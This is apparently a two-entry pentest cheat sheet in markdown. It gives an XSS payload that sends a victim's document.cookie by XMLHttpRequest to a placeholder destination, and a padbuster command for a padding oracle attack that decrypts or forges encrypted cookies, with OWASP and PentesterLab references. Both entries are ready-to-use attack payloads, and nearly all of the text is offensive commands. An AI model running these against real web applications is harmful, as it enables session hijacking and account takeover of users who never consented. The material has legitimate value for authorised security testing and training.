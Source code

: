 ### 1. Grab the cookie
```
<script>i = new XMLHttpRequest(); i.open('GET', '[dest]' + document.cookie, true); i.send();</script>
```
**- web application,XSS,cookies**
#### References:

https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet
https://excess-xss.com/
__________
### 2. Padding Oracle attack, break encrypted cookies
```
padbuster [url] [EncodedData] 8 --cookies '[UserCookies]'  -encoding 0 --plaintext user=[TextToEncode]
```
**- web application,cookies**
#### References:

https://blog.gdssecurity.com/labs/2010/9/14/automated-padding-oracle-attacks-with-padbuster.html
https://archive.org/details/TheWebApplicationHackerHandbook
https://pentesterlab.com/exercises/padding_oracle/course
__________
